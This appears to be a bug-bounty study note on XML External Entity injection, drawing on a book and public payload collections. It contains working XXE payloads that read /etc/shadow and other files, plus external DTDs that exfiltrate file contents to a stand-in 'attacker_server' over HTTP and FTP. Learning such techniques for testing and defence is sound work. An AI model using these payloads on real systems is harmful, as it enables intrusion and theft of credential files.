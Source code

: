 # XML External Entities injection
Tags: #xxe #injection #api
Related to: [[saml]]
See also:
Previous:

## Links
Topic: XXE identification and exploit
Author: h3xstream
Link: https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html

Book Title: Bug Bounty Bootcamp
Author: Vickie Li
Description: A lot of the payload material is taken from this book.

Topic: Various XXE payloads
Author: swisskeyrepo
Link: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

## Notes
### Detection
- Anything that looks XML based should be investigated (e.g. GPS in @h3xstream post)
- Change `application/json` to `application/xml` in API requests.

```
Content-Type: text/xml
Content-Type: application/xml
```

#### FIle Upload
 > If you can upload one of these file types, you might be able to smuggle XML input to the application’s XML parser. XML can be written into document and image formats like XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, and RSS feeds. Furthermore, metadata embedded within images like GIF, PNG, and JPEG files are all based on XML.
 
 ### Payloads
 "Classic"
 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```

#### Blind
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

#### SVG
Save as a .svg file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

#### Office files
You can unzip the following, identiy .xml files, and add payloads
* docx
* pptx
* xlsx
Then, zip again

#### Xinclude
Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.

In this situation, you might be able to execute an XInclude attack instead. _XInclude_ is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

This piece of XML code does two things. First, it references the _http://www.w3.org/2001/XInclude_ namespace so that we can use the `xi:include` element. Next, it uses that element to parse and include the _/etc/hostname_ file in the XML document.

### Exfiltration
#### Blind
More complicated because of rules in most XML parsers

> An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

*xxe.dtd*
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

Notice that I included the contents of _/etc/shadow_ in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:
```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

#### Bypassing restrictions on special chars
Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (`<>`), quotes (`"` or `'`), and the ampersand (`&`). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within `CDATA` (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">
2 <!ENTITY % start "<![CDATA[">
3 <!ENTITY % end "]]>">
4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings `"<![CDATA["` and `"]]>"`2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a `CDATA` tag 4. The concatenated `exfiltrate` entity declaration will become the following:

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint ([https://xmllint.com/](https://xmllint.com/)) to ensure that your XML syntax is valid.

Finally, send your usual XML payload to the target to execute the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

Another way of exfiltrating files with special characters is to use a PHP URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at [https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb):

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```

We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server